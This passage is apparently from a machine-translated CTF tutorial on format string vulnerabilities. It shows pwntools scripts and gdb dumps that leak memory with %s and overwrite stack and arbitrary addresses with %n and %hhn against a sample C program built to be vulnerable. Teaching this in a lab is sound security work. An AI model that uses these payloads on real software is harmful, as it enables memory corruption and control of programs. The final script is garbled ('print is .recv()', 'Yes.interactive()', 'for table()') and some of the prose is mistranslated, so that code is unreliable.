0xffbbf8f0│+0x14: 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000
```

At the same time, under the `terminal` we run, we do get the address of `scanf`.

```bash
➜ leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch: i386-32-little
    RELRO: Partial RELRO
    Stack: No canary found
    NX: NX enabled
    PIE: No PIE
(0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```

However, it is not said that all offsets the integer multiples of the machine word length, so that we can directly obtain the corresponding parameters. Sometimes we need to fill the formatted string we enter so that the address of the address we want to print is located at the integer multiples of the machine word length. Generally speaking, it is similar to the following: `[padding][addr]`.

### Overwrite memory
The above shows how to use formatted strings to leak stack memory and arbitrary address memory. In fact, you can also modify the value of variables on the stack, or even modify the memory of any address variable. As long as the corresponding address of the variable is writable, we can use formatted strings to modify its corresponding value. Here we can think of the types in the formatted string:

```text
%n: does not output characters, but writes the number of characters that have been successfully output to the variable referred to by the corresponding integer pointer parameter.
```

The sample code is as follows:

```c++
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

No matter which address variable is covered, we basically construct a `payload` similar to the following:

```bash
...[overwrite addr]..%[overwrite offset]$n
```

Where `...` represents our fill content, `overwrite addr` represents the address we want to overwrite, and `overwrite offset` address indicates the location where the address we want to overwrite is stored as the parameter of the formatted string of the output function. So generally speaking, the following steps are also the following:
 - Determine the overwrite address
 - Determine relative offset
 - Conduct coverage

#### Overwrite stack memory
First of all, we naturally find a way to know the address of the stack variable `c`. Since almost all programs currently have `aslr` protection enabled, the stack address is constantly changing. We deliberately output the address of the `c` variable here.

Secondly, let’s determine which parameter to output by `printf` is the address to which the formatted string is stored. Here we operate through the previous method of leaking the value of the stack variable.

```c++
 → 0xf7e44670 <printf+0> call 0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳ 0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7 → <main+76> add esp, 0x10 ← $esp
0xffffcd10│+0x04: 0xffffcd28 → "%d%d"
0xffffcd14│+0x08: 0xffffcd8c → 0x00000315
0xffffcd18│+0x0c: 0x00000c2
0xffffcd1c│+0x10: 0xf7e8b6bb → <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e → 0xffff0000 → 0x00000000
0xffffcd24│+0x18: 0xffffce4c → 0xffffd07a → "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d" ← $eax
```

We can find that the value of the variable `c` is stored at `0xffffcd14`. Then, we determine that the address of the format string `%d%d` of the format string `0xffffcd28` relative to the format string parameter `0xffffcd10` of the `printf` function is `0x18`, that is, the format string is equivalent to the `7th parameter of the `printf` function and is equivalent to the `6th parameter of the format string.

In this way, the value at the `6th parameter is the address of the storing variable `c`, so we can use the `%n` feature to modify the value of `c`, and the `payload` is as follows:

```bash
[addr of c]%012d%6$n
```

The length of `addr of c` is `4`, so we have to enter `12` characters to reach `16` characters, so that we can modify the value of `c` to `16`. The script is as follows:

```python
def forc():
    sh = process('./overflow')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

#### Overwrite any address memory
#####Cover small numbers
```python
def fora():
    sh = process('./overflow')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
#####Cover big numbers
```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
print is .recv()
    Yes.interactive()

for table()
```